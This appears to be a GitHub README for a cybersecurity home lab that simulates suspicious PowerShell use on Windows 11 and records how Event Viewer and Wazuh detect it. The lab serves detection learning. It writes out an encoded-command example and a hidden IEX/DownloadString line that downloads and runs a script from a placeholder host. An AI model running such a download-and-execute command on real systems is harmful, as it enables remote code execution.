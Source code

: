 # powershell-sus-activity-lab
## Overview
This lab simulates suspicious PowerShell activity on a Windows 11 endpoint and demonstrates how it is logged in Event Viewer and detected by Wazuh SIEM.

It’s designed as part of a broader cybersecurity home lab focused on learning how to detect malicious behavior in enterprise environments.

---

## Lab Environment

- **Endpoint**: Windows 11 (Test Machine)
- **SIEM**: Wazuh Server
- **Logging Sources**: Windows Event Viewer, Wazuh Alerts

---

## Simulation 1: Encoded PowerShell Command

### Command:
```powershell
powershell -EncodedCommand aABpAA==
```

---

This command executes _hi_ using Base64-encoded input, simulating obfuscation — a common attacker tactic.

### Detection:
- **Event Viewer:** Captured Event ID 4688 (Process Creation)

- **Wazuh:** Detected suspicious EncodedCommand usage

  - **Alert Level:** 5

---

## Simulation 2: Remote Script Execution

### Command:
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://testsite/malicious.ps1')"
```

---

This mimics an attacker downloading and executing a remote script using PowerShell.

### Detection:
- **Event Viewer:**

  - Event ID 4104 (Script Block Logging)

  - Event ID 4688 (Process Creation)

- **Wazuh:** Alert triggered due to suspicious use of IEX and DownloadString

  - Alert Level:10

---

## Powershell to Wazuh Flow
![Poweshell to Wazuh Flow](powershell.png)
## Key Takeaways
PowerShell is a powerful tool often abused in attacks.

- Encoded commands and remote script execution are red flags.

- Windows and Wazuh can detect and log these behaviors with proper configuration.

- This lab reinforces detection strategy for common PowerShell-based threats.

